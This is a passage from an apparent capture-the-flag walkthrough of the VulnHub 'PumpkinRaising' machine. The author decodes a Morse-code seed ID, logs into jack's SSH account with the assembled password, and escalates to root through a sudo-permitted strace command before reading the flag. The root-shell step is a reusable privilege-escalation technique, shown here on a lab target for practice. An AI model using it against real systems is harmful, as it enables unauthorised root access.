 ```
    .- .-. .
                        --- -.
                                                               - .... .
       .-. .. --. .... -
                     .--. .- - .... .-.-.- .-.-.- .-.-.-
                            -... .. --. -- .- -..- .--. ..- -- .--. -.- .. -.
... . . -.. ...
                 .. -.. ---...
                                    -.... ----. ..... ----- --...
```
&nbsp;&nbsp;&nbsp;&nbsp;But that below all the pumpkins is actually just a bunch of dots and dashes, so morse code
CyberChef decrypts that (thanks https://www.hackingarticles.in/pumpkinraising-vulnhub-walkthrough/)

```
 T  T     I   E OF U   M N  YIPPEE! YOU ARE ON THE RIGHT PATH... BIGMAXPUMPKIN SEEDS ID: 69507
```
&nbsp;&nbsp;&nbsp;&nbsp;That was one was kinda convoluted to find, but thats all the seeds.

```
Seed IDS:
69507
50609
96454
86568
```

&nbsp;&nbsp;&nbsp;&nbsp;Time to get into the box.
The Jack login is a combination of the seed ids `69507506099645486568` .


```
❯ ssh jack@192.168.1.238
jack@192.168.1.238's password:
------------------------------------------------------------------------------
                          Welcome to Mission-Pumpkin
      All remote connections to this machine are monitored and recorded
------------------------------------------------------------------------------
Last login: Sat Feb 15 09:15:30 2020 from blade
jack@Pumpkin:~$ sudo -l
Matching Defaults entries for jack on Pumpkin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jack may run the following commands on Pumpkin:
    (ALL) NOPASSWD: /usr/bin/strace
jack@Pumpkin:~$ sudo strace -o /dev/null /bin/bash
root@Pumpkin:~# cat flag.txt
cat: flag.txt: No such file or directory
root@Pumpkin:~# cd /home/
root@Pumpkin:/home# ls
jack
root@Pumpkin:/home# cd jack/
root@Pumpkin:~# ls
root@Pumpkin:~# cd /root
root@Pumpkin:/root# ls
flag.txt
root@Pumpkin:/root# cat flag.txt
Congratulation!
Jack will take care of planting your seeds.
Hope to see you at Pumpkin Festival
```
